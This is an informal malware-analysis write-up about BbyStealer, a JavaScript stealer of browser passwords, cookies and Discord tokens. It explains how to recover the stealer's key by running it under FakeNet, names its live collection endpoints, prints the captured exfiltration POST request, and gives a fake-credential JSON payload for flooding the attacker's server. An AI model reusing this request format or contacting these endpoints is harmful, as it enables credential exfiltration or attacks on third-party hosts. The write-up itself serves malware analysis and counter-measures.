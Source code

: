 ```yaml
---
title: BbyStealer
---
```

Hello, did you heard about [BbyStealer](https://github.com/Green-Avocado/bbystealer-malware-analysis) ?
This is a shitty javascript malware to steal somes browsers passwords, cookies and target somes discord clients for your account token.
BbyStealer can download a malicious javascript code online to pick your discord creds with functions detouring.

## Start

**How many people thought of sending shit trought BbyStealer x)**

Let's see what we would need to do that:

- Get the BbyStealer key.
- Somes endpoints for sending the shitty data.
- Knowledge of scripting.

### How would I got the BbyStealer key ?

**Dynamic or static analysis ?**

The javascript malware is obfuscated, to be fast you can setup a vm and install [FakeNet](https://github.com/mandiant/flare-fakenet-ng), launch the malware and use FakeNet to get the request (The path is the key look like this key:jNQzkAMmc1Uy)


### Endpoints !

Right now we know somes existing endpoints with POST http method:

- [maliciousWebsite](https://superfuniestindianparty.rip)/jNQzkAMmc1Uy/tokens
- [maliciousWebsite](https://superfuniestindianparty.rip)/jNQzkAMmc1Uy

The request:

```

POST /jNQzkAMmc1Uy HTTP/1.1
Host: superfuniestindianparty.rip
Connection: keep-alive
Content-Length: 215
Access-Control-Allow-Origin: *
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) discord/1.0.9003 Chrome/91.0.4472.164 Electron/13.4.0 Safari/537.36
Content-Type: application/json
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: fr


**Our data in json format**

```

### How to send our fake data ?

To send our data, I made a simple payload look at this

```json
{"username":"discord.gg/miaou#0401","id":"Ajoute-moi","avatar":null,"badges":1,"email":"freeearlyavie@gmail.com","token":"FakeToken","type":"login","password":"UNEARLY"}
```

Lets re-use our request we got and put the fake data in!

## Ending

Thanks for reading this <3
